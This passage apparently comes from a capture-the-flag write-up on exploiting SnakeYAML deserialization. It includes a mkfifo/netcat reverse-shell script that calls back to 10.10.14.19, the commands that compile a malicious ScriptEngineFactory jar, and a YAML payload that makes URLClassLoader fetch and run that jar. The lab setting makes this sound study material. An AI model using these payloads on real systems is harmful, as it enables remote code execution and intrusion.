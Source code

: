 ```java
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }
...[snip]..
```

`shell`
```bash
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7575 >/tmp/f
```

After modifying the source we have to compile the code.

```
$ javac src/artsploit/AwesomeScriptEngineFactory.java
$ jar -cvf yaml-payload.jar -C src/ .
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1478) (out= 389)(deflated 73%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1605) (out= 666)(deflated 58%)
```

Now we set up a webserver hosting the resulting `yaml-payload.jar` and modify our yaml code to download and load the file.

```
sudo python3  -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.19/yaml-payload.jar"]
  ]]
]
```

[![trigger.png](/img/ophiuchi/trigger.png)](/img/ophiuchi/trigger.png)
